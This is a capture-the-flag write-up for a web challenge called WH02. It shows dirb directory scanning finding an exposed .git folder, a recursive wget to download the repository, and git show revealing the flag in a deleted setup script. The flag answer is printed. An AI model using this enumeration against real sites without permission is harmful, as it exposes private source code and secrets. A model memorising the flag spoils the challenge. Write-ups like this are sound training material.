

# WH02
## BRIEFING
Access the site at https://cfta-wh02.allyourbases.co and find a way to get the flag.

## Solution

I did not get this one during the competition. Later I realized that the main page of the site included a big hint by mentioning version control.



If we use `dirb`on the site, we find the crucial directory almost immediately, that is, a `/.git` directory:

```console
root@osboxes:/usr/share/wordlists/dirbuster# dirb https://cfta-wh02.allyourbases.co/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 18 22:03:43 2021
URL_BASE: https://cfta-wh02.allyourbases.co/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://cfta-wh02.allyourbases.co/ ----
+ https://cfta-wh02.allyourbases.co/.git/HEAD (CODE:200|SIZE:23)  
```

we can use `wget` to pull the exposed git repo via `wget -r https://cfta-wh02.allyourbases.co/.git/`. The `-r` turns on recursive retrieving.

I was able to find the flag by using the `git show` command from the command line:

```
root@osboxes:~/Downloads/wh02/cfta-wh02.allyourbases.co/.git# git show
commit 278b83e3c9dfe29f7eb7fdafd4765532c2a1fbc6 (HEAD -> master)
Author: Joe Bloggs <j.bloggs@allyourbases.io>
Date:   Sun Mar 7 12:40:54 2021 -0800

    Production version.

diff --git a/index.html b/index.html
index 29a1428..edb4ed2 100644
--- a/index.html
+++ b/index.html
@@ -1,9 +1,18 @@
 <html>
     <head>
-        <title>TEST</title>
+        <title>Coding Standards - Best Practices</title>
     </head>
     <body>
-        <!-- Testing site infrastrucure. No one is going to see this anyway.-->
-        <div>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed pellentesque, mauris sit amet convallis auctor, felis quam viverra felis, quis tempor lectus tortor ut eros. Maecenas eget dapibus lacus. Donec scelerisque risus ac neque congue, et congue justo posuere. Quisque et sem odio. Sed non egestas ante. Etiam nec nibh ac arcu maximus lobortis in nec nisi. Curabitur sed tellus pretium, hendrerit nulla sed, finibus purus.</div>
+        <h1>Coding Standards - Best Practices</h1>
+        <ol>
+            <li>Use consistent indentation.</li>
+            <li>Follow the DRY principle.</li>
+            <li>Avoid deep nesting.</li>
+            <li>Limit line length.</li>
+            <li>Avoid putting all your code into one or two files.</li>
+            <li>Consistent naming conventions.</li>
+            <li>Keep your code simple.</li>
+            <li>Use version control!</li>
+        </ol>
     </body>
 </html>
\ No newline at end of file
diff --git a/setup.sh b/setup.sh
deleted file mode 100644
index dc5e9b1..0000000
--- a/setup.sh
+++ /dev/null
@@ -1,8 +0,0 @@
-#!/bin/bash
-
-FLAG="giTisAGreat_ResoURCe8337"
-
-cd build
-cp ../sitedata.zip sitedata.zip
-unzip sitedata.zip
-
```

The flag is **giTisAGreat_ResoURCe8337**.
